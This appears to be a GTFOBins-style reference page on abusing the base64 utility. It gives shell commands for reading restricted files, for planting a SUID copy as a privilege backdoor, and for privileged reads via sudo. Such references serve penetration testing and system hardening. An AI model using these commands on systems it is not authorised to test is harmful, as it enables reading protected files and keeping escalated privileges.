 # GTFOBin: base64

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
base64 "$LFILE" | base64 --decode
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which base64) .

LFILE=file_to_read
./base64 "$LFILE" | base64 --decode
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo base64 "$LFILE" | base64 --decode
```
